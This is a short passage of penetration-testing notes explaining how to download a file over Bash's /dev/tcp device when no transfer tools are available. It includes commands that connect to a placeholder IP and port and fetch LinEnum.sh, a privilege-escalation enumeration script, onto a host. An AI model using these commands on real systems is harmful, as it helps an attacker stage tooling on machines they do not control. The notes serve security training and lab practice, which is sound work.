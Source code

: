 ----
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

#### Connect to the Target Webserver
```bash
exec 3<>/dev/tcp/<ip>/<port>
```

#### HTTP GET Request
```bash
echo  -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response
```bash
cat <&3
```

